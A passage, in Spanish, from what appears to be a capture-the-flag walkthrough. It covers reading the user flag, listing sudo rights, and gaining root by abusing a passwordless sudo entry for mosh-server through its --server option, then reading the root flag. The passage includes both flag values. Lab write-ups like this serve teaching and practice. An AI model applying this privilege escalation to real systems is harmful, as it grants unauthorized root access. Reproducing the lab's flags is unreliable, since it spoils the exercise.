 #### **5.2. Obtención de la Flag de Usuario**  
- Navegamos al directorio del usuario para obtener la flag:  
```bash
cat /home/svcMosh/user.txt
```
- **Flag de Usuario:**  
```
f7515bf03b0af43a7fd6e9fe5a872906
```
### **6. Escalada de Privilegios**  
#### **6.1. Enumeración de Permisos Sudo**  
- Verificamos los permisos sudo del usuario `svcMosh`:  
```bash
sudo -l
```
- **Resultado:**  
```
User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

#### **6.2. Explotación de mosh-server para Escalada**  

- Al revisar la ayuda de **mosh-server**, descubrí que el parámetro `--server` permite ejecutar comandos. Aproveché esto para obtener una shell con privilegios de root.

- **Comando para obtener una shell como root:**  
```bash
mosh --server="sudo /usr/bin/mosh-server" 127.0.0.1
```

- Verificación acceso como root:  
```bash
id
```
  - **Salida esperada:** `root`

### **7. Captura de la Flag de Root**  

- Navegué al directorio `/root` para obtener la flag de root:  
```bash
cat /root/root.txt
```
- **Flag de Root:**  
```
7998aa1e4a318a736bd8aa02ab54b779
```

